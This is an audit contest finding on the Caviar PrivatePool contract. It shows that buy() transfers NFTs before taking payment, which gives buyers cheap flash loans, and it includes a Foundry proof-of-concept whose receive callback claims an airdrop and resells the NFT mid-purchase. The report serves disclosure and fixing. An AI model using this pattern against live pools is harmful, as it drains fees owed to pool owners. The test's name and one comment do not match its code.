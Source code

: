 ## Tags

- bug
- 2 (Med Risk)
- high quality report
- primary issue
- selected for report
- sponsor acknowledged
- M-01

# [The buy function's mechanism enables users to acquire flash loans at a cheaper fee rate.](https://github.com/code-423n4/2023-04-caviar-findings/issues/885) 

# Lines of code

https://github.com/code-423n4/2023-04-caviar/blob/main/src/PrivatePool.sol#L211-L289
https://github.com/code-423n4/2023-04-caviar/blob/main/src/PrivatePool.sol#L240


# Vulnerability details

## Impact

The buy function's mechanism allows users to access flash loans at a lower fee cost, which could affect the pool owner's yield if users opt for it instead of flash loans.

## Proof of Concept

The buy function initially transfers the NFTs to the buyer before verifying and receiving payment. This mechanism creates an opportunity for users to access flash loans that are akin to flash swaps in Uniswap.

It is worth noting that this scenario is only viable in pools with ERC20 tokens since they do not necessitate upfront payment, unlike payable functions. Additionally, it requires the flash loan fee to be greater than the combined buy and sell fees for the NFTs.

A proof-of-concept (PoC) demonstrating this scenario is provided below:

```solidity
// @audit-info These are the default circumstances used by most of the tests:

PrivatePool public privatePool;

address baseToken = address(shibaInu);
address nft = address(milady);
uint128 virtualBaseTokenReserves = 100e6;
uint128 virtualNftReserves = 10e18;
uint16 feeRate = 1e2;
uint56 changeFee = 3e6;
bytes32 merkleRoot = bytes32(0);
address owner = address(this);

uint256[] tokenIds;
uint256[] tokenWeights;
PrivatePool.MerkleMultiProof proofs;
IStolenNftOracle.Message[] stolenNftProofs;

function setUp() public {
    privatePool = new PrivatePool(address(factory), address(royaltyRegistry), address(stolenNftOracle));
    privatePool.initialize(
            baseToken, nft, virtualBaseTokenReserves, virtualNftReserves, changeFee, feeRate, merkleRoot, true, false
    );
    deal(address(shibaInu), address(this), 2e6);

    // @audit-info Giving the pool 60 tokens to trade with
    deal(address(shibaInu), address(privatePool), 100e6);

    for (uint256 i = 0; i < 5; i++) {
        milady.mint(address(privatePool), i + 1);
    }
    assertEq(milady.balanceOf(address(privatePool)), 5, "Didn't mint 5 NFTs for some reason.");
}

function test_failBecauseOfDivisionBy0() public {

    for (uint256 i = 0; i < 5; i++) {
        tokenIds.push(i + 1);
    }

    (uint netInputAmount, uint feeAmount, uint protocolFeeAmount) = privatePool.buyQuote(5e18);

    shibaInu.approve(address(privatePool), netInputAmount);
    // @audit-info Trying to buy the 5 tokens present in the pool
    privatePool.buy(tokenIds, tokenWeights, proofs);
}

function onERC721Received(
    address operator,
    address from,
    uint256 tokenId,
    bytes calldata data
) external override returns (bytes4) {
    // @audit-info Claim airdrop for the specific NFT here
    airdrop.claim(tokenId);

    // @audit-info Selling the NFT here
    uint[] memory _tokenIds = new uint[](1);
    _tokenIds[0] = tokenId;

    milady.approve(address(privatePool), tokenId);
    (uint netInputAmount, uint feeAmount, uint protocolFeeAmount) = privatePool.sellQuote(1e18);
         
    privatePool.sell(_tokenIds, tokenWeights, proofs, stolenNftProofs);
    return bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"));
}
```

## Tools Used

Manual review, Foundry

## Recommended Mitigation Steps

Consider sending the NFTs after the funds have been received by the contract.